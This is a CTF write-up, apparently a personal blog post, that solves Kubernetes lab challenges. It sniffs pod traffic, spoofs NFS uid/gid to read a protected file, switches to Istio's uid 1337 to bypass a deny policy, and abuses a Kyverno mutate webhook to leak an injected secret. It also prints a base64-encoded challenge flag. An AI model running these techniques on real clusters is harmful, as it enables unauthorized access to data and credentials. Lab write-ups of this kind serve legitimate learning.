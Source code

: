 ```yaml
---
title: k8s lan party
author: ch3n9w
date: 2024-03-15 07:34:46
categories: CTF
cover:
  image: 2024-03-26-21-02-36.png
---
```


Long time no CTF~~

<!--more-->

## RECON

Just check the environment related to K8s using `env` and reconnoiter internal service using `dnscan`

![recon](recon.png)

This blog is good written [link](https://thegreycorner.com/2023/12/13/kubernetes-internal-service-discovery.html)

## Finding Neighbours

According to the description, the sidecar container of current pod is sending some information (possibly flag) to remote server. So, the first step is digging the remote server like what we do in the first challenge, which leads me to `reporting-service.k8s-lan-party.svc.cluster.local`.

As we all know, all containers within same pod share one network namespace, which means we can sniff the traffic from our current container.

```sh
tcpdump -i any host reporting-service.k8s-lan-party.svc.cluster.local and tcp -w traffic.pcap
```

and the flag was in the `traffic.pcap`

![neighbours](neighbours.png)

## DATA LEAKAGE

> The targeted big corp utilizes outdated, yet cloud-supported technology for data storage in production. But oh my, this technology was introduced in an era when access control was only network-based.

At first glance, I thought the data storage is `nfs`, and found the existence of `/efs/flag.txt`. However, there is no enough permission to read it, while I failed to mount the remote storage to local host, so I stopped and didn't have any progress until the end of the game.


By executing `mount`, here we got:

```
fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com:/ on /efs type nfs4 (ro,relatime,vers=4.1,rsize=1048576,wsize=1048576,namlen=255,hard,noresvport,proto=tcp,timeo=600,retrans=2,sec=sys,clientaddr=192.168.30.72,local_lock=none,addr=192.168.124.98)
```

Since the remote storage use `nfs4`, we should specify the version when listing it.

```sh
nfs-ls nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com/?version=4
```

try to cat the remote `flag.txt`, but there is no enough permission.

```sh
nfs-cat nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//flag.txt?version=4
```

![](2024-03-26-20-45-47.png)

However, according to the libnfs document, we could spoof uid and gid by adding parameters to the nfs url and get elevated privileges.

![](2024-03-26-20-52-11.png)

```sh
nfs-cat "nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//flag.txt?version=4&uid=0&gid=0"
```

![](2024-03-26-20-51-30.png)

## The Beauty and The Ist

> Apparently, new service mesh technologies hold unique appeal for ultra-elite users (root users). Don't abuse this power; use it responsibly and with caution.

The given policy is 

```yml
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  name: istio-get-flag
  namespace: k8s-lan-party
spec:
  action: DENY
  selector:
    matchLabels:
      app: "{flag-pod-name}"
  rules:
  - from:
    - source:
        namespaces: ["k8s-lan-party"]
    to:
    - operation:
        methods: ["POST", "GET"]
```

The policy in this challenge block `GET` and `POST` requests from namespace `k8s-lan-party`
Find Istio service

```sh
dnscan -subnet 10.100.0.1/16
```

![](2024-03-26-21-10-53.png)

The request to this address will be denied. However, there seems to be user that can bypass the Istio's IPTables rules from hist#2.

`cat /etc/passwd | grep 1337`

And we got user `istio`, According to [ncc report](https://istio.io/v1.11/blog/2021/ncc-security-assessment/NCC_Group_Google_GOIST2005_Report_2020-08-06_v1.1.pdf) and [Istio Iptables](https://github.com/istio/istio/wiki/Understanding-IPTables-snapshot#use-pid-to-get-iptables), **the 1337 uid is used to distinguish between traffic originating from proxy vs the applications**, which means we can bypass the policy restriction by switching to user `istio` and send requests, which would be recognized as traffic from istio sidercar proxy.

![](2024-03-26-21-18-32.png)

## Who will guard the guardians?

> Where pods are being mutated by a foreign regime, one could abuse its bureaucracy and leak sensitive information from the [administrative](https://kubernetes.io/docs/reference/access-authn-authz/extensible-admission-controllers/#request) services.

The given policy:

```yml
apiVersion: kyverno.io/v1
kind: Policy
metadata:
  name: apply-flag-to-env
  namespace: sensitive-ns
spec:
  rules:
    - name: inject-env-vars
      match:
        resources:
          kinds:
            - Pod
      mutate:
        patchStrategicMerge:
          spec:
            containers:
              - name: "*"
                env:
                  - name: FLAG
                    value: "{flag}"
```

Kyverno is designed for policy management. The policy will inject flag into Pod resource created under `sensitive-ns`.

According to GPT, `AdmissionReview` is a kind of API resource used in admission control process. K8s supports two types of admission control webhooks to handle `AdmissionReview`: `ValidatingAdmissionWebhook` and `MutatingAdmissionWebhook`, the latter is called before validating object correctness, it can modify objects in the request, while the former is called after all `MutatingAdmissionWebhook` to check the state of the object for validity but does not modify it.

Obviously, the policy facilitates MutatingAdmissionWebhook to modify object.

Reconnoiter services first:

```
10.100.86.210 -> kyverno-cleanup-controller.kyverno.svc.cluster.local.
10.100.217.223 -> kyverno-cleanup-controller-metrics.kyverno.svc.cluster.local.
10.100.232.19 -> kyverno-svc.kyverno.svc.cluster.local.
10.100.126.98 -> kyverno-svc-metrics.kyverno.svc.cluster.local.
10.100.158.213 -> kyverno-reports-controller-metrics.kyverno.svc.cluster.local.
10.100.171.174 -> kyverno-background-controller-metrics.kyverno.svc.cluster.local.
```

What if we can utilize the MutatingAdmissionWebhook to steal the secret since we can access to `https://kyverno-svc.kyverno.svc.cluster.local/mutate`? The AdmissionReview requests to this api will be responsed by object modified by the kyverno, which makes a lot sense.

use the following resource to generate `AdmissionReview`

```yml
apiVersion: v1
kind: Pod
metadata:
  name: curl-flag
  namespace: sensitive-ns
spec:
  containers:
  - name: curl-container
    image: curlimages/curl
```

```sh
./kube-review create pod.yaml > pod.json
curl -k -X POST \
https://kyverno-svc.kyverno.svc.cluster.local/mutate \
  -H 'content-type: application/json' \
  --data-binary "@pod.json"
```

We got:

```json
{"kind":"AdmissionReview","apiVersion":"admission.k8s.io/v1","request":{"uid":"dd916513-9b96-4220-ae2b-b21470612d69","kind":{"group":"","version":"v1","kind":"Pod"},"resource":{"group":"","version":"v1","resource":"pods"},"requestKind":{"group":"","version":"v1","kind":"Pod"},"requestResource":{"group":"","version":"v1","resource":"pods"},"name":"curl-flag","namespace":"sensitive-ns","operation":"CREATE","userInfo":{"username":"kube-review","uid":"ee8332cb-afa6-412e-b60a-641f23d28980"},"object":{"kind":"Pod","apiVersion":"v1","metadata":{"name":"curl-flag","namespace":"sensitive-ns","creationTimestamp":null},"spec":{"containers":[{"name":"curl-container","image":"curlimages/curl","resources":{}}]},"status":{}},"oldObject":null,"dryRun":true,"options":{"kind":"CreateOptions","apiVersion":"meta.k8s.io/v1"}},"response":{"uid":"dd916513-9b96-4220-ae2b-b21470612d69","allowed":true,"patch":"W3sib3AiOiJhZGQiLCJwYXRoIjoiL3NwZWMvY29udGFpbmVycy8wL2VudiIsInZhbHVlIjpbeyJuYW1lIjoiRkxBRyIsInZhbHVlIjoid2l6X2s4c19sYW5fcGFydHl7eW91LWFyZS1rOHMtbmV0LW1hc3Rlci13aXRoLWdyZWF0LXBvd2VyLXRvLW11dGF0ZS15b3VyLXdheS10by12aWN0b3J5fSJ9XX0sIHsicGF0aCI6Ii9tZXRhZGF0YS9hbm5vdGF0aW9ucyIsIm9wIjoiYWRkIiwidmFsdWUiOnsicG9saWNpZXMua3l2ZXJuby5pby9sYXN0LWFwcGxpZWQtcGF0Y2hlcyI6ImluamVjdC1lbnYtdmFycy5hcHBseS1mbGFnLXRvLWVudi5reXZlcm5vLmlvOiBhZGRlZCAvc3BlYy9jb250YWluZXJzLzAvZW52XG4ifX1d","patchType":"JSONPatch"}}
```

![](2024-03-26-22-26-59.png)
